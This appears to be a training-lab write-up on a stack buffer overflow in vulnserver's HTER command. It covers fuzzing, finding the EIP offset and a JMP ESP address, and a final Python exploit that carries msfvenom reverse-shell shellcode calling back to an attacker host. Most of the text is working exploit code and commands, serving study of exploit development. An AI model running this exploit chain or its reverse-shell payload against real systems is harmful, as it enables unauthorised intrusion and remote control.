





# HTER: EIP Overwrite

-----

## Crashing the application

First thing we want to do is begin fuzzing the application. To do this, let's write a quick spike script to see if we can crash vulnserver.

```
s_readline();
s_string("HTER ");
s_string_variable(0);
```

Now let's use `generic_send_tcp` to try and crash the application.

```bash
generic_send_tcp 10.10.86.166 9999 hter.spk 0 0
```

We successfully crashed vulnserver.


-----

## Replicating the crash

Now that we know we have a crash, let's try to replicate the crash. To do this, we are going to write a quick fuzz script in Python.

```python
#!/usr/bin/env python3

import socket
import sys
import time

# Target information
host = "10.10.86.166"
port = 9999

prefix = "HTER "
timeout = 5

string = prefix + "A" * 100

while True:
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.settimeout(timeout)
            s.connect((host, port))
            s.recv(1024)
            print("Fuzzing with {} bytes.".format(len(string) - len(prefix)))
            s.send(bytes(string, "latin-1"))
            s.recv(1024)
    except:
        print("Fuzzing crashed at {} bytes.".format(len(string) - len(prefix)))
        sys.exit(0)
    string += "A" * 100
    time.sleep(1)
```

After 2100 bytes, the application crashed with an overwritten EIP.



Although, one interesting thing is that the EIP is overwritten with "A"s as opposed to 0x41414141. That means that the application is take in our input as hexadecimal. That means we will have to modify our exploit accordingly.

-----

## Finding the offset

Now that we know 2100 bytes will crash and overwrite the EIP, let's find where the offset is to try and overwrite the EIP address. Instead of `msf-pattern_create`, let's use `pwn cyclic` from the pwntools Python module to use a custom alphabet for cyclic string.

```bash
pwn cyclic 2100 -a "123456789ABCDEF"
```

Let's use the cyclic pattern to try and identify the offset.

```python
#!/usr/bin/env python3

import socket

# Target information
host = "10.10.86.166"
port = 9999

prefix = b"HTER "
#crash_length = 2100

# pwn cyclic 2100 -a "123456789ABCDEF"
cyclic = b"11112111311141115111711181119111A111B111C111D111E111F1122112311241125112711281129112A112B112C112D112E112F1132113311341135113711381139113A113B113C113D113E113F1142114311441145114711481149114A114B114C114D114E114F1152115311541155115711581159115A115B115C115D115E115F1172117311741175117711781179117A117B117C117D117E117F1182118311841185118711881189118A118B118C118D118E118F1192119311941195119711981199119A119B119C119D119E119F11A211A311A411A511A711A811A911AA11AB11AC11AD11AE11AF11B211B311B411B511B711B811B911BA11BB11BC11BD11BE11BF11C211C311C411C511C711C811C911CA11CB11CC11CD11CE11CF11D211D311D411D511D711D811D911DA11DB11DC11DD11DE11DF11E211E311E411E511E711E811E911EA11EB11EC11ED11EE11EF11F211F311F411F511F711F811F911FA11FB11FC11FD11FE11FF12121312141215121712181219121A121B121C121D121E121F1222122312241225122712281229122A122B122C122D122E122F1232123312341235123712381239123A123B123C123D123E123F1242124312441245124712481249124A124B124C124D124E124F1252125312541255125712581259125A125B125C125D125E125F1272127312741275127712781279127A127B127C127D127E127F1282128312841285128712881289128A128B128C128D128E128F1292129312941295129712981299129A129B129C129D129E129F12A212A312A412A512A712A812A912AA12AB12AC12AD12AE12AF12B212B312B412B512B712B812B912BA12BB12BC12BD12BE12BF12C212C312C412C512C712C812C912CA12CB12CC12CD12CE12CF12D212D312D412D512D712D812D912DA12DB12DC12DD12DE12DF12E212E312E412E512E712E812E912EA12EB12EC12ED12EE12EF12F212F312F412F512F712F812F912FA12FB12FC12FD12FE12FF1313141315131713181319131A131B131C131D131E131F1322132313241325132713281329132A132B132C132D132E132F1332133313341335133713381339133A133B133C133D133E133F1342134313441345134713481349134A134B134C134D134E134F1352135313541355135713581359135A135B135C135D135E135F1372137313741375137713781379137A137B137C137D137E137F1382138313841385138713881389138A138B138C138D138E138F1392139313941395139713981399139A139B139C139D139E139F13A213A313A413A513A713A813A913AA13AB13AC13AD13AE13AF13B213B313B413B513B713B813B913BA13BB13BC13BD13BE13BF13C213C313C413C513C713C813C913CA13CB13CC13CD13CE13CF13D213D313D413D513D713D813D913DA13DB13DC13DD13DE13DF13E213E313E413E513E713E813E"

payload = b"".join([
    prefix,
    cyclic
])

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    try:
        s.connect((host, port))
        print("Sending buffer...")
        s.send(payload + b"\r\n")
        print("Done!")
    except:
        print("Could not connect.")
```

Now that we crashed the application, let's look at the EIP value and see if we can find the value in our cyclic string.



Due to our input being taken in as hex, we only need to use the first half of the EIP value for a lookup.

```bash
pwn cyclic -a "12345789ABCDEF" -l D913
```

Based on our lookup, we found our offset to be 2047. Let's try verify that by attempting to overwrite the EIP with all "B"s.

```python
#!/usr/bin/env python3

import socket

# Target information
host = "10.10.86.166"
port = 9999

prefix = b"HTER "
crash_length = 2100

# pwn cyclic -a "12345789ABCDEF" -l D913
offset = 2047

payload = b"".join([
    prefix,
    b"A" * offset,
    b"B" * 8,
    b"C" * (crash_length - len(prefix) - offset - 4)
])

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    try:
        s.connect((host, port))
        print("Sending buffer...")
        s.send(payload + b"\r\n")
        print("Done!")
    except:
        print("Could not connect.")
```

Using the script above, the EIP was overwritten to "BBAAAAAAAA". Let's try to adjust our offset and try again.

```python
#!/usr/bin/env python3

import socket

# Target information
host = "10.10.86.166"
port = 9999

prefix = b"HTER "
crash_length = 2100

# pwn cyclic -a "12345789ABCDEF" -l D913
# BBAAAAAA (6 byte differential)
offset = 2047 - 6

payload = b"".join([
    prefix,
    b"A" * offset,
    b"B" * 8,
    b"C" * (crash_length - len(prefix) - offset - 4)
])

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    try:
        s.connect((host, port))
        print("Sending buffer...")
        s.send(payload + b"\r\n")
        print("Done!")
    except:
        print("Could not connect.")
```

Now, we have the correct offset.


-----

## Locating JMP ESP address

Now that we can control the instruction pointer, let's find a `JMP ESP` instruction to try an execute code on the stack. This can be done within Immunity Debugger with mona.

```
!mona jmp -r esp
```



Based on the output of mona, it is best if we choose an address with no protections (ascii if possible). Let's choose `0x62501203`. Now let's by using a breakpoint, let's verify we can cause the application to go to our chosen address.

```python
#!/usr/bin/env python3

import binascii
import socket
import struct

# Target information
host = "10.10.86.166"
port = 9999

prefix = b"HTER "
crash_length = 2100

# pwn cyclic -a "12345789ABCDEF" -l D913
# BBAAAAAA (6 byte differential)
offset = 2047 - 6

jmp_esp = 0x62501203
new_eip = binascii.hexlify(struct.pack("<I", jmp_esp))

payload = b"".join([
    prefix,
    b"A" * offset,
    new_eip,
    b"C" * (crash_length - len(prefix) - offset - len(new_eip))
])

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    try:
        s.connect((host, port))
        print("Sending buffer...")
        s.send(payload + b"\r\n")
        print("Done!")
    except:
        print("Could not connect.")
```

To accurately use the correct address for our new EIP, we have to first "hexlify" it. Below shows we hit a breakpoint at our `JMP ESP` address.



-----

## Generating shellcode

First, let's use msfvenom to generate our shellcode. We need to make sure we use a hex format so the program correctly interprets the shellcode.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.6.209 LPORT=9001 EXITFUNC=thread -b "\x00" -f hex
```

Now let's put together our final proof of concept exploit.

```python
#!/usr/bin/env python3

import binascii
import socket
import struct

# Target information
host = "10.10.86.166"
port = 9999

prefix = b"HTER "
crash_length = 2100

# pwn cyclic -a "12345789ABCDEF" -l D913
# BBAAAAAA (6 byte differential)
offset = 2047 - 6

jmp_esp = 0x62501203
new_eip = binascii.hexlify(struct.pack("<I", jmp_esp))

nop_sled = b"90" * 16

# msfvenom -p windows/shell_reverse_tcp LHOST=10.9.6.209 LPORT=9001 EXITFUNC=thread -b "\x00" -f hex
shellcode = b"dacebb01da2397d97424f45a29c9b15283eafc315a13035bc9c162a705878d57d6e804b2e72872b75899f0955452540dee167122479ca70d588d940cdaccc8eee31e1def2442ecbdfd084351894558dac148d83f916bc9eea935c9117d4e4009626b1aa250079d62a9e8324b051b4a8ca2c439e4d0793a33aaa5cfa70c2d7703ace2eec0a24f648ea64ea9a5d3db4c69529f6aad3e7b12f49a2a2be64492896d68c7a32ce5248ecef52299bdc7ed312964659cae8b5c5820725f9969b10bc901103482d19de10581315ae671f20a8e9bfd75aea4d71d455fb02b93599144a16532bc2c835eae781cf75721d66697ff93a9130c6467d4797610143424b72be2405bb9699012a225c773143c8d690f96b373c9d177a82adf763d16fb68fb9747dc53ce118a15b8d364cc17bae0895b7d7696b10b96276c4aa988f85ad2f498a509bdb9479bc851de4e713ce1a5b639624f47be7a3a42fa3cd73e93a8d7ed94f8"

payload = b"".join([
    prefix,
    b"A" * offset,
    new_eip,
    nop_sled,
    shellcode,
    b"C" * (crash_length - len(prefix) - offset - len(new_eip) - len(nop_sled) - len(shellcode))
])

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    try:
        s.connect((host, port))
        print("Sending buffer...")
        s.send(payload + b"\r\n")
        print("Done!")
    except:
        print("Could not connect.")
```

Let's set up a netcat lister and hope to catch a reverse shell.

